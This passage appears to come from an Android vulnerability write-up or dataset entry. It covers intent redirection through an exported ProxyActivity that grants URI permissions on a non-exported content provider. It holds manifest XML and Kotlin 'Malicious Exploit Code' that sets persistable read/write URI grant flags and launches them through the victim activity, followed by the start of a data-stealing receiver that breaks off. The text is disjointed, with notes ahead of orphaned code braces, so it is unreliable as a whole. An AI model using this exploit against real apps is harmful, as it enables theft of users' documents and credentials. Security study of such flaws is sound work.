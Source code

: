 ## Notes

This vulnerability demonstrates a sophisticated Android security bypass technique that exploits the interaction between intent processing and URI permission grants. The vulnerability allows complete circumvention of content provider export restrictions through permission escalation.

The application presents as a legitimate business document management tool, making the vulnerability difficult to detect through surface-level inspection. This pattern represents a real-world attack vector that could be exploited to access sensitive business documents and authentication data in enterprise environments.
            }
        }
        
```

```xml

<activity 
    android:name=".ProxyActivity"
    android:exported="true" />


<provider
    android:name=".SecureContentProvider"
    android:authorities="com.documentmanager.secure"
    android:exported="false"
    android:grantUriPermissions="true" />
```

**Malicious Exploit Code:**
```kotlin
// MALICIOUS: Exploit to gain URI permissions via proxy activity
class GrantUriExploit {
    fun exploitProxyActivity(context: Context) {
        // Step 1: Create embedded intent targeting attacker's receiver
        val embeddedIntent = Intent().apply {
            // Target attacker's activity to receive the URI permissions
            setClassName(context.packageName, "com.attacker.UriReceiver")
            
            // Set URI to victim's non-exported content provider
            data = Uri.parse("content://com.documentmanager.secure/")
            
            // ATTACK: Grant persistent URI permissions to attacker
            flags = Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION or
                   Intent.FLAG_GRANT_PREFIX_URI_PERMISSION or
                   Intent.FLAG_GRANT_READ_URI_PERMISSION or
                   Intent.FLAG_GRANT_WRITE_URI_PERMISSION
        }
        
        // Step 2: Create proxy intent to victim's proxy activity
        val proxyIntent = Intent().apply {
            setClassName("com.documentmanager", "com.documentmanager.ProxyActivity")
            putExtra("extra_intent", embeddedIntent)
        }
        
        // Step 3: Launch attack - victim app grants URI permissions to attacker
        context.startActivity(proxyIntent)
    }
}

// MALICIOUS: Receiver that gets URI permissions and steals data
class UriReceiver : Activity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        
```